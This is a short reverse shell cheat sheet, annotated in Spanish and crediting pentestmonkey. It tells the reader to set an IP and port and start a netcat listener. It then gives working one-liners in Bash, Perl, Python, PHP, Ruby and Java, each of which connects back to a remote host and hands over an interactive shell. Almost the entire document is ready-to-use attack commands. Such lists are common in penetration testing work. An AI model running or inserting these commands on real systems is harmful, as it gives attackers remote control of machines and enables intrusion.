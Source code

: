 # Reverse Shell Cheat Sheet

> [!IMPORTANT]
> Define el $IP y $PORT antes de usar los comandos.
> Iniciar escucha con `nc -lvnp $PORT`

## Bash

```bash
bash -i >& /dev/tcp/$IP/$PORT 0>&1
```

## Perl

```perl
perl -e 'use Socket;$i="$IP";$p=$PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",$PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP

```php
php -r '$sock=fsockopen("$IP",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("$IP",$PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/$IP/$PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## Menciones

Se ha usado la [Reverse Shell Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) como referencia.